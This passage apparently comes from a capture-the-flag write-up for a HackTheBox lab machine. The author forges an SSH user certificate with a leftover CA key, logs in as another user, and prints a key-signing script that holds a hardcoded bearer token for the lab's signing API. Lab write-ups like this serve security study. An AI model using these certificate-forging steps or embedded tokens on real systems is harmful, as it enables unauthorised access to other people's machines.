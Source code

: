 ```bash
msainristil@itrc:~/decommission_old_ca$ ssh-keygen -s ca-itrc -n zzinter -I xx sed.pub 
Signed user key sed-cert.pub: id "xx" serial 0 for zzinter valid forever
```

lets login with the following keypair
```ssh -i sed  zzinter@resource.htb```

YESSSS!!! LOGGED IN WITH ZZINTER 

AND GOT THE USER FLAG

![user-flag](https://github.com/architmadankar/HackTheBox/blob/d00b457220eb66504d318b44db75c7a93e925ca6/resource.htb/ss/ssh-user2.png)

## Privilage Escalation


inside the user dir we have a file sign_key_api.sh 

```sh
#!/bin/bash

usage () {
    echo "Usage: $0 <public_key_file> <username> <principal>"
    exit 1
}

if [ "$#" -ne 3 ]; then
    usage
fi

public_key_file="$1"
username="$2"
principal_str="$3"

supported_principals="webserver,analytics,support,security"
IFS=',' read -ra principal <<< "$principal_str"
for word in "${principal[@]}"; do
    if ! echo "$supported_principals" | grep -qw "$word"; then
        echo "Error: '$word' is not a supported principal."
        echo "Choose from:"
        echo "    webserver - external web servers - webadmin user"
        echo "    analytics - analytics team databases - analytics user"
        echo "    support - IT support server - support user"
        echo "    security - SOC servers - support user"
        echo
        usage
    fi
done

if [ ! -f "$public_key_file" ]; then
    echo "Error: Public key file '$public_key_file' not found."
    usage
fi

public_key=$(cat $public_key_file)

curl -s signserv.ssg.htb/v1/sign -d '{"pubkey": "'"$public_key"'", "username": "'"$username"'", "principals": "'"$principal"'"}' -H "Content-Type: application/json" -H "Authorization:Bearer 7Tqx6owMLtnt6oeR2ORbWmOPk30z4ZH901kH6UUT6vNziNqGrYgmSve5jCmnPJDE"
```
